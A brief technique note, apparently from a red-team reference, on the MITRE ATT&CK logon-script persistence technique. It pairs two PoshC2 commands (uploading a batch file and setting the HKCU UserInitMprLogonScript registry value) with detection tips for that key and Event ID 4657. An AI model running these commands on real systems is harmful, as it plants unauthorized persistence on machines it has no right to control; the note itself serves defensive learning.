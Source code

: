 # [Logon scripts](https://attack.mitre.org/techniques/T1037/)

## Exploit syntax:
In Poshc2, run
```sh
upload-file -source /tmp/test.bat -destination "c:\temp\test.bat" #Upload your batch file on the box

sharpreg create HKCU\Environment UserInitMprLogonScript "C:\test.bat" #Create the key and populate its value with the location of the file you uploaded
```
## Detections techniques:
* Investigate file creation in the default windows logon script location in the registry. HKEY_CURRENT_USER\Environment "UserInitMprLogonScript"
* Event ID 4657 is made when the registry is modified
